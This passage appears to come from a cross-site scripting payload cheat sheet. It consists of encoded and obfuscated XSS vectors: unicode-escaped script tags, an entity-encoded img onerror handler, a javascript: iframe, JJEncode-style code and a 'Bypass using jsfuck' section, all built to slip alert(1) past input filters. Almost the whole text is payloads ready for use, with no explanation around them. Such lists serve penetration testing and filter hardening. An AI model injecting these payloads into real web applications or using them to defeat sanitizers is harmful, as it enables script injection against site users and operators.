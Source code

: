 ```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
```

### Bypass using jsfuck

Bypass using [jsfuck](http://www.jsfuck.com/)

```javascript
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```
